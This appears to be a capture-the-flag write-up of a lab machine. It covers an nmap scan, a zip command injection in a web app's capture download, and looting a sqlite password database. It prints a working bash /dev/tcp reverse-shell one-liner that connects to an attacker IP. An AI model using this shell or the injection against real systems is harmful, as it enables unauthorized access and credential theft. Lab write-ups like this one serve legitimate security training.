





# Enumeration
```
# Nmap 7.94SVN scan initiated Fri Apr 19 19:04:58 2024 as: /usr/bin/nmap -p- --max-retries 1 --max-rate 500 --max-scan-delay 20 -T4 -v --open -oN nmap/Full_10.10.71.110.nmap --system-dns --stats-every 3s 10.10.71.110
Nmap scan report for 10.10.71.110
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Checking the webpage on port 80:


Now when we download captures and check response on burp suite:


This output is similar to zip command in linux.
Now trying command injection with zip

We need to upload these files to get command injection:

*s.sh*:
```
0<&196;exec 196<>/dev/tcp/10.8.1.208/9001; /bin/bash <&196 >&196 2>&196
```

Now when we hit download capture we get a shell:


Now enumerating **/var/www/database** we find `database.sqlite3`

And it has passwords


# TCPDump & AppArmor